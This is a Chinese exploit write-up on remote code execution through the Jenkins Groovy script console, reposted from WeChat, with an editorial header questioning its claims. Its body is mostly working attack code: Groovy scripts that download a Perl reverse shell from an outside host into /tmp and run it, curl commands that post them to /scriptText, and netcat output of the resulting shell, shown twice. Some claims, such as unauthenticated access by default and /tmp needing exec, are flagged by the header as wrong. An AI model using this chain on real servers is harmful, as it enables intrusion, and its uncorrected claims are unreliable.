

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：仅测试1.626/1.638，CentOS6包；需要禁用安全或匿名Admin权限，不能称当前默认安装行为

代码与实验材料：Groovy下载并执行Perl脚本及curl请求，历史命令输出显示jenkins OS用户；两段输出完全重复

来源证据范围：微信转载，无原始英文研究/产品安全配置引用

- **适用与权限边界（1）**：把历史/错误配置宣称默认无需认证RCE；依据：未展示securityRealm/authorizationStrategy；脚本控制台管理功能的预期权限边界缺失，不能泛化所有Jenkins。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：系统条件解释错误；依据：称Jenkins默认需要/tmp可执行，而perl解释器读取脚本不等同直接exec挂载权限；运行结果不是root。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（3）**：重复与缺修复；依据：相同终端日志重复两次，缺启用认证/收紧管理权限的说明。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jenkins RCE 通过未经身份验证的 API

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H545vVAq8rzJPtT6oAopog)



        Jenkins（连续集成服务器）默认安装允许未经身份验证访问 Jenkins 主服务器上的 API（默认行为）。允许未经身份验证访问 groovy 脚本控制台，允许攻击者执行 shell 命令和 / 或连接回反向 shell。

<table width="662"><tbody><tr><td><p>Jenkins</p></td><td><p>版本 1.626</p></td></tr><tr><td><p>Jenkins</p></td><td><p>版本 1.638</p></td></tr></tbody></table>

经测试的操作系统
--------

        努力测试所有受影响的操作系统，显示默认操作系统打包版本的漏洞利用（例如 jenkins shell）的严重性。

<table width="662"><thead><tr><th>操作系统</th><th>默认包展示</th></tr></thead><tbody><tr><td><p>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</p></td><td><p>shell 作为用户 jenkins</p></td></tr></tbody></table>

        制作了一些小的 groovy 脚本来通过 Jenkins API 执行我想要的 shell 命令（我记得有一些问题通过 groovy 一次运行多个命令），然后我使用 Curl 执行它们。

### groovy 脚本 wget shell

        脚本将 wget perl 反向 shell 定位到目标并将其复制到 /tmp/shell

```
def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()
   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
```

        默认情况下，Jenkins 需要 / tmp 设置执行挂载选项，因此您应该可以安全地将 shell 放置在 Jenkins 服务器上。

### groovy 脚本执行 shell 命令

```
def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
```

### 通过 scriptText Jenkins API 执行 Groovy 脚本

```
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
```

```
[root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami     jenkins
     apache-4.1$ id
     id     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
```

```
[root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami     jenkins
     apache-4.1$ id
     id     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
```

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
